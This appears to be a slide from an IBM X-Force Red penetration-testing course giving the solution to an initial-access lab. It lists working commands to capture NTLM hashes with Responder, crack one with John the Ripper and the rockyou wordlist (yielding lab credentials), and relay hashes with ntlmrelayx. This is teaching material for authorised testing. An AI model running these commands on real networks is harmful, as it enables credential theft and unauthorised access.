

# Initial Access > Lab 2 - Solution
Time to use Responder! (see previous slides)
responder -I eth0 -v
Hopefully we get a hash or two!
From here we will want to try to crack it or relay it!
gzip -d /usr/share/wordlists/rockyou.txt.gz; john --wordlist=/usr/share/wordlists/rockyou.txt backup1.hash
Creds: backup:backup1
Or, relay it!
ntlmrelayx.py -tf relay.txt -smb2support
Remember when relaying to turn off Responder’s SMB server! (Or run ntlmrelayx.py first, then responder)
vim /usr/share/responder/Responder.conf
IBM Security X-Force Red / © 2023 IBM Corporation
30
Vim > nano